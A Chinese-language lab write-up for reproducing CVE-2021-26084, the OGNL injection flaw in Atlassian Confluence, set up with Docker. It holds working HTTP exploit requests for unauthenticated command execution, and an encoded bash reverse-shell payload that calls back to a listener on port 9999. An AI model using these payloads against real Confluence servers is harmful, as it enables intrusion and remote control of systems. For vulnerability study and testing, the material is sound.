





# Atlassian Confluence OGNL表达式注入代码执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统，其部分版本中存在OGNL表达式注入漏洞。攻击者可以通过这个漏洞，无需任何用户的情况下在目标Confluence中执行任意代码。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## 环境搭建

执行以下命令启动一个Confluence 7.4.10 data center 试用版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考CVE-2019-3396这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

选择standalone部署模式。



## 漏洞利用

有多个接口可以触发这个OGNL表达式注入漏洞。

### /pages/doenterpagevariables.action

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行：

```
# 编码前
queryString='+{233*233}+'
```

```
# 编码后
queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 192.168.174.128:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```



执行任意命令

```
# 编码前
queryString='+{Class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var isWin = java.lang.System.getProperty("os.name").toLowerCase().contains("win"); var cmd = new java.lang.String("id");var p = new java.lang.ProcessBuilder(); if(isWin){p.command("cmd.exe", "/c", cmd); } else{p.command("bash", "-c", cmd); }p.redirectErrorStream(true); var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream()); var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = ""; var output = ""; while((line = bufferedReader.readLine()) != null){output = output + line + java.lang.Character.toString(10); }')}+'
```

```
# 编码后
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```



### /pages/createpage-entervariables.action

这个路径也需要用户登录：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```



### /pages/createpage.action

这个接口需要一个可以创建页面的用户权限：

```
GET /pages/createpage.action?spaceKey=TEST&fromPageId=65603&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.174.128:8090
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.174.128:8090/pages/createpage.action?spaceKey=TEST&fromPageId=65603&src=quick-create
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=V8MWkRvgq0XktbU5HqhpTYF2i6xiMxHOkcNlSQjh4gFvvIeKsr4Ga7OjQP15; JSESSIONID=833D51832CFE3C9E4C6391F69901154F; seraph.confluence=524289%3Ae65c469eff133d2f9c27f2c79a7e23264505d8f9; load-tutorial-flow=true
Connection: close
```



### 反弹shell

```
# 编码前
queryString='+{Class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval('var isWin = java.lang.System.getProperty("os.name").toLowerCase().contains("win"); var cmd = new java.lang.String("{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");var p = new java.lang.ProcessBuilder(); if(isWin){p.command("cmd.exe", "/c", cmd); } else{p.command("bash", "-c", cmd); }p.redirectErrorStream(true); var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream()); var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = ""; var output = ""; while((line = bufferedReader.readLine()) != null){output = output + line + java.lang.Character.toString(10); }')}+'
```

unicode+URL Encode编码后

```
# 编码后
%5Cu0027%5Cu002B%5Cu007B%5Cu0043%5Cu006C%5Cu0061%5Cu0073%5Cu0073%5Cu002E%5Cu0066%5Cu006F%5Cu0072%5Cu004E%5Cu0061%5Cu006D%5Cu0065%5Cu0028%5Cu0027%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu0078%5Cu002E%5Cu0073%5Cu0063%5Cu0072%5Cu0069%5Cu0070%5Cu0074%5Cu002E%5Cu0053%5Cu0063%5Cu0072%5Cu0069%5Cu0070%5Cu0074%5Cu0045%5Cu006E%5Cu0067%5Cu0069%5Cu006E%5Cu0065%5Cu004D%5Cu0061%5Cu006E%5Cu0061%5Cu0067%5Cu0065%5Cu0072%5Cu0027%5Cu0029%5Cu002E%5Cu006E%5Cu0065%5Cu0077%5Cu0049%5Cu006E%5Cu0073%5Cu0074%5Cu0061%5Cu006E%5Cu0063%5Cu0065%5Cu0028%5Cu0029%5Cu002E%5Cu0067%5Cu0065%5Cu0074%5Cu0045%5Cu006E%5Cu0067%5Cu0069%5Cu006E%5Cu0065%5Cu0042%5Cu0079%5Cu004E%5Cu0061%5Cu006D%5Cu0065%5Cu0028%5Cu0027%5Cu004A%5Cu0061%5Cu0076%5Cu0061%5Cu0053%5Cu0063%5Cu0072%5Cu0069%5Cu0070%5Cu0074%5Cu0027%5Cu0029%5Cu002E%5Cu0065%5Cu0076%5Cu0061%5Cu006C%5Cu0028%5Cu0027%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0069%5Cu0073%5Cu0057%5Cu0069%5Cu006E%5Cu0020%5Cu003D%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu006C%5Cu0061%5Cu006E%5Cu0067%5Cu002E%5Cu0053%5Cu0079%5Cu0073%5Cu0074%5Cu0065%5Cu006D%5Cu002E%5Cu0067%5Cu0065%5Cu0074%5Cu0050%5Cu0072%5Cu006F%5Cu0070%5Cu0065%5Cu0072%5Cu0074%5Cu0079%5Cu0028%5Cu0022%5Cu006F%5Cu0073%5Cu002E%5Cu006E%5Cu0061%5Cu006D%5Cu0065%5Cu0022%5Cu0029%5Cu002E%5Cu0074%5Cu006F%5Cu004C%5Cu006F%5Cu0077%5Cu0065%5Cu0072%5Cu0043%5Cu0061%5Cu0073%5Cu0065%5Cu0028%5Cu0029%5Cu002E%5Cu0063%5Cu006F%5Cu006E%5Cu0074%5Cu0061%5Cu0069%5Cu006E%5Cu0073%5Cu0028%5Cu0022%5Cu0077%5Cu0069%5Cu006E%5Cu0022%5Cu0029%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0063%5Cu006D%5Cu0064%5Cu0020%5Cu003D%5Cu0020%5Cu006E%5Cu0065%5Cu0077%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu006C%5Cu0061%5Cu006E%5Cu0067%5Cu002E%5Cu0053%5Cu0074%5Cu0072%5Cu0069%5Cu006E%5Cu0067%5Cu0028%5Cu0022%5Cu007B%5Cu0065%5Cu0063%5Cu0068%5Cu006F%5Cu002C%5Cu0059%5Cu006D%5Cu0046%5Cu007A%5Cu0061%5Cu0043%5Cu0041%5Cu0074%5Cu0061%5Cu0053%5Cu0041%5Cu002B%5Cu004A%5Cu0069%5Cu0041%5Cu0076%5Cu005A%5Cu0047%5Cu0056%5Cu0032%5Cu004C%5Cu0033%5Cu0052%5Cu006A%5Cu0063%5Cu0043%5Cu0038%5Cu0078%5Cu004F%5Cu0054%5Cu0049%5Cu0075%5Cu004D%5Cu0054%5Cu0059%5Cu0034%5Cu004C%5Cu006A%5Cu0045%5Cu0033%5Cu004E%5Cu0043%5Cu0034%5Cu0078%5Cu004D%5Cu006A%5Cu0067%5Cu0076%5Cu004F%5Cu0054%5Cu006B%5Cu0035%5Cu004F%5Cu0053%5Cu0041%5Cu0077%5Cu0050%5Cu0069%5Cu0059%5Cu0078%5Cu007D%5Cu007C%5Cu007B%5Cu0062%5Cu0061%5Cu0073%5Cu0065%5Cu0036%5Cu0034%5Cu002C%5Cu002D%5Cu0064%5Cu007D%5Cu007C%5Cu007B%5Cu0062%5Cu0061%5Cu0073%5Cu0068%5Cu002C%5Cu002D%5Cu0069%5Cu007D%5Cu0022%5Cu0029%5Cu003B%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0070%5Cu0020%5Cu003D%5Cu0020%5Cu006E%5Cu0065%5Cu0077%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu006C%5Cu0061%5Cu006E%5Cu0067%5Cu002E%5Cu0050%5Cu0072%5Cu006F%5Cu0063%5Cu0065%5Cu0073%5Cu0073%5Cu0042%5Cu0075%5Cu0069%5Cu006C%5Cu0064%5Cu0065%5Cu0072%5Cu0028%5Cu0029%5Cu003B%5Cu0020%5Cu0069%5Cu0066%5Cu0028%5Cu0069%5Cu0073%5Cu0057%5Cu0069%5Cu006E%5Cu0029%5Cu007B%5Cu0070%5Cu002E%5Cu0063%5Cu006F%5Cu006D%5Cu006D%5Cu0061%5Cu006E%5Cu0064%5Cu0028%5Cu0022%5Cu0063%5Cu006D%5Cu0064%5Cu002E%5Cu0065%5Cu0078%5Cu0065%5Cu0022%5Cu002C%5Cu0020%5Cu0022%5Cu002F%5Cu0063%5Cu0022%5Cu002C%5Cu0020%5Cu0063%5Cu006D%5Cu0064%5Cu0029%5Cu003B%5Cu0020%5Cu007D%5Cu0020%5Cu0065%5Cu006C%5Cu0073%5Cu0065%5Cu007B%5Cu0070%5Cu002E%5Cu0063%5Cu006F%5Cu006D%5Cu006D%5Cu0061%5Cu006E%5Cu0064%5Cu0028%5Cu0022%5Cu0062%5Cu0061%5Cu0073%5Cu0068%5Cu0022%5Cu002C%5Cu0020%5Cu0022%5Cu002D%5Cu0063%5Cu0022%5Cu002C%5Cu0020%5Cu0063%5Cu006D%5Cu0064%5Cu0029%5Cu003B%5Cu0020%5Cu007D%5Cu0070%5Cu002E%5Cu0072%5Cu0065%5Cu0064%5Cu0069%5Cu0072%5Cu0065%5Cu0063%5Cu0074%5Cu0045%5Cu0072%5Cu0072%5Cu006F%5Cu0072%5Cu0053%5Cu0074%5Cu0072%5Cu0065%5Cu0061%5Cu006D%5Cu0028%5Cu0074%5Cu0072%5Cu0075%5Cu0065%5Cu0029%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0070%5Cu0072%5Cu006F%5Cu0063%5Cu0065%5Cu0073%5Cu0073%5Cu003D%5Cu0020%5Cu0070%5Cu002E%5Cu0073%5Cu0074%5Cu0061%5Cu0072%5Cu0074%5Cu0028%5Cu0029%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0069%5Cu006E%5Cu0070%5Cu0075%5Cu0074%5Cu0053%5Cu0074%5Cu0072%5Cu0065%5Cu0061%5Cu006D%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu0020%5Cu003D%5Cu0020%5Cu006E%5Cu0065%5Cu0077%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu0069%5Cu006F%5Cu002E%5Cu0049%5Cu006E%5Cu0070%5Cu0075%5Cu0074%5Cu0053%5Cu0074%5Cu0072%5Cu0065%5Cu0061%5Cu006D%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu0028%5Cu0070%5Cu0072%5Cu006F%5Cu0063%5Cu0065%5Cu0073%5Cu0073%5Cu002E%5Cu0067%5Cu0065%5Cu0074%5Cu0049%5Cu006E%5Cu0070%5Cu0075%5Cu0074%5Cu0053%5Cu0074%5Cu0072%5Cu0065%5Cu0061%5Cu006D%5Cu0028%5Cu0029%5Cu0029%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu0062%5Cu0075%5Cu0066%5Cu0066%5Cu0065%5Cu0072%5Cu0065%5Cu0064%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu0020%5Cu003D%5Cu0020%5Cu006E%5Cu0065%5Cu0077%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu0069%5Cu006F%5Cu002E%5Cu0042%5Cu0075%5Cu0066%5Cu0066%5Cu0065%5Cu0072%5Cu0065%5Cu0064%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu0028%5Cu0069%5Cu006E%5Cu0070%5Cu0075%5Cu0074%5Cu0053%5Cu0074%5Cu0072%5Cu0065%5Cu0061%5Cu006D%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu0029%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu006C%5Cu0069%5Cu006E%5Cu0065%5Cu0020%5Cu003D%5Cu0020%5Cu0022%5Cu0022%5Cu003B%5Cu0020%5Cu0076%5Cu0061%5Cu0072%5Cu0020%5Cu006F%5Cu0075%5Cu0074%5Cu0070%5Cu0075%5Cu0074%5Cu0020%5Cu003D%5Cu0020%5Cu0022%5Cu0022%5Cu003B%5Cu0020%5Cu0077%5Cu0068%5Cu0069%5Cu006C%5Cu0065%5Cu0028%5Cu0028%5Cu006C%5Cu0069%5Cu006E%5Cu0065%5Cu0020%5Cu003D%5Cu0020%5Cu0062%5Cu0075%5Cu0066%5Cu0066%5Cu0065%5Cu0072%5Cu0065%5Cu0064%5Cu0052%5Cu0065%5Cu0061%5Cu0064%5Cu0065%5Cu0072%5Cu002E%5Cu0072%5Cu0065%5Cu0061%5Cu0064%5Cu004C%5Cu0069%5Cu006E%5Cu0065%5Cu0028%5Cu0029%5Cu0029%5Cu0020%5Cu0021%5Cu003D%5Cu0020%5Cu006E%5Cu0075%5Cu006C%5Cu006C%5Cu0029%5Cu007B%5Cu006F%5Cu0075%5Cu0074%5Cu0070%5Cu0075%5Cu0074%5Cu0020%5Cu003D%5Cu0020%5Cu006F%5Cu0075%5Cu0074%5Cu0070%5Cu0075%5Cu0074%5Cu0020%5Cu002B%5Cu0020%5Cu006C%5Cu0069%5Cu006E%5Cu0065%5Cu0020%5Cu002B%5Cu0020%5Cu006A%5Cu0061%5Cu0076%5Cu0061%5Cu002E%5Cu006C%5Cu0061%5Cu006E%5Cu0067%5Cu002E%5Cu0043%5Cu0068%5Cu0061%5Cu0072%5Cu0061%5Cu0063%5Cu0074%5Cu0065%5Cu0072%5Cu002E%5Cu0074%5Cu006F%5Cu0053%5Cu0074%5Cu0072%5Cu0069%5Cu006E%5Cu0067%5Cu0028%5Cu0031%5Cu0030%5Cu0029%5Cu003B%5Cu0020%5Cu007D%5Cu0027%5Cu0029%5Cu007D%5Cu002B%5Cu0027
```

发送POST请求

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 192.168.174.128:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 6252
Content-Type: application/x-www-form-urlencoded

queryString=【pa】
```

成功接收反弹shell

### 

